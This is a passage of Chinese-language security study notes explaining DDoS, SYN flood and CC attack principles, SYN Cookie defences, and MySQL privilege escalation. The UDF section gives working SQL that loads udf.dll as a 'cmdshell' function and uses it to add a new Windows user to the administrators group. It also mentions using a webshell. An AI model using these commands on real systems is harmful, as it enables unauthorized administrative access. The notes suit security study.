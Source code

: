 ## <span id="head59"> Ddos原理</span>

利用合理的请求造成资源过载，导致服务不可用

### <span id="head60"> syn洪流的原理</span>

伪造大量的源IP地址，分别向服务器端发送大量的SYN包，此时服务器端会返回SYN/ACK包，因为源地址是伪造的，所以伪造的IP并不会应答，服务器端没有收到伪造IP的回应，会重试3～5次并且等待一个SYNTime（一般为30秒至2分钟），如果超时则丢弃这个连接。攻击者大量发送这种伪造源地址的SYN请求，服务器端将会消耗非常多的资源（CPU和内存）来处理这种半连接，同时还要不断地对这些IP进行SYN+ACK重试。最后的结果是服务器无暇理睬正常的连接请求，导致拒绝服务。

### <span id="head61"> CC攻击原理</span>

对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务端资源的目的。

## <span id="head62"> DDOS防护</span>

SYN Cookie/SYN Proxy、safereset等算法。SYN Cookie的主要思想是为每一个IP地址分配一个“Cookie”，并统计每个IP地址的访问频率。如果在短时间内收到大量的来自同一个IP地址的数据包，则认为受到攻击，之后来自这个IP地址的包将被丢弃。

# <span id="head63"> 提权</span>

## <span id="head64"> mysql两种提权方式</span>

udf提权,mof提权

### <span id="head65"> Mysql_UDF提权</span>

要求:
1.目标系统是Windows(Win2000,XP,Win2003)；
2.拥有MYSQL的某个用户账号，此账号必须有对mysql的insert和delete权限以创建和抛弃函数
3.有root账号密码
导出udf:
MYSQL 5.1以上版本，必须要把udf.dll文件放到MYSQL安装目录下的lib\plugin文件夹下才能创建自定义函数
可以再mysql里输入
`select @@basedir`
`show variables like ‘%plugins%’` 寻找mysql安装路径
提权:

使用SQL语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname ‘导出的DLL路径’；

```
create function cmdshell returns string soname ‘udf.dll’
select cmdshell(‘net user arsch arsch /add’);
select cmdshell(‘net localgroup administrators arsch /add’);

drop function cmdshell;
```

该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。

### <span id="head66">Mysql mof提权</span>
